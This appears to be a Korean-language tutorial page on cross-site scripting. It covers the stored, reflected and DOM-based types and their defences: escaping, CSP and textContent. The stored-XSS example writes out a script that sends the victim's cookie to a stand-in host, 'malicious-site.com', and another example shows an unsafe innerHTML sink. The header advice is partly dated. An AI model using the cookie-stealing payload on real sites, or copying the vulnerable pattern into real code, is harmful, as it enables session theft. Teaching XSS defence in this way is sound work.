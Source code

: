 # 📌 XSS (Cross-Site Scripting) 보안

## 🔹 XSS란?

XSS(Cross-Site Scripting)는 공격자가 **웹 페이지에 악성 스크립트를 삽입**하여 사용자 브라우저에서 실행되도록 유도하는 공격 기법입니다. XSS 공격이 성공하면 **세션 탈취, 피싱, 악성 코드 실행** 등의 보안 위협이 발생할 수 있습니다.

---

## 🔹 XSS 공격 유형

XSS 공격은 크게 **Stored XSS**, **Reflected XSS**, **DOM-based XSS** 세 가지 유형으로 나뉩니다.

### ✅ 1. Stored XSS (저장형 XSS)

- 악성 스크립트가 **서버에 저장**되고, 사용자가 해당 데이터를 조회할 때 실행됨.
- 공격자는 게시글, 댓글, 프로필 등에 악성 코드 삽입 가능.

📌 **예제**: 게시판에 악성 스크립트를 삽입하는 경우

```html
<script>
  document.location = 'http://malicious-site.com/steal?cookie=' + document.cookie;
</script>
```

### ✅ 2. Reflected XSS (반사형 XSS)

- URL 파라미터를 통해 악성 스크립트를 전달하며, 사용자가 이를 클릭하면 실행됨.
- 주로 피싱 공격 및 악성 링크 유포에 사용됨.

📌 **예제**: 공격자가 악성 링크를 생성하여 사용자를 유도하는 경우

```plaintext
http://example.com/search?q=<script>alert('XSS')</script>
```

### ✅ 3. DOM-based XSS

- 클라이언트 측 JavaScript에서 `innerHTML`, `document.write()` 등을 사용해 직접 DOM을 조작할 때 발생함.
- 서버 응답이 아닌 클라이언트 코드에서 취약점이 발생하는 특징이 있음.

📌 **예제**: JavaScript에서 `location.search` 값을 DOM에 직접 삽입하는 경우

```javascript
const params = new URLSearchParams(window.location.search);
document.getElementById('output').innerHTML = params.get('input');
```

---

## 🔹 XSS 공격 방어 방법

### ✅ 1. 입력값 검증 및 필터링

- 사용자 입력값을 반드시 **검증(Validation)**하고, 허용된 문자만 받도록 제한.
- HTML 태그나 JavaScript 코드 삽입을 방지.

```javascript
function sanitizeInput(input) {
  return input.replace(/</g, '&lt;').replace(/>/g, '&gt;');
}
```

### ✅ 2. 출력 시 HTML 이스케이프(Escape) 처리

- 서버에서 데이터를 출력할 때 HTML 이스케이프 처리를 적용하여 태그 실행을 방지.

```html
&lt;script&gt;alert("XSS")&lt;/script&gt;
```

📌 **템플릿 엔진을 사용할 경우 자동으로 이스케이프 처리 제공**

- EJS: `<%= userInput %>` → 자동 이스케이프
- Handlebars: `{{userInput}}` → 자동 이스케이프

### ✅ 3. HTTP 응답 헤더 설정

- `Content Security Policy (CSP)`를 적용하여 스크립트 실행을 제한.
- `X-XSS-Protection`을 활성화하여 브라우저에서 기본적인 XSS 방어 기능을 활용.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'https://trusted-cdn.com'
X-XSS-Protection: 1; mode=block
```

### ✅ 4. JavaScript에서 `innerHTML` 사용 지양

- `innerHTML`, `document.write()`, `eval()` 대신 `textContent`나 `createElement()` 사용.

```javascript
document.getElementById('output').textContent = userInput;
```

---

## 📌 요약

- **XSS란?** 악성 스크립트를 웹 페이지에 삽입하여 사용자에게 실행시키는 공격 기법.
- **주요 유형:** 저장형(Stored), 반사형(Reflected), DOM 기반(DOM-based) XSS.
- **예방 방법:** 입력 검증, HTML 이스케이프, CSP 설정, `innerHTML` 사용 지양.

XSS 공격을 방어하면 **사용자의 데이터와 보안을 보호할 수 있으며**, 안전한 웹 애플리케이션을 구축할 수 있습니다! 🚀
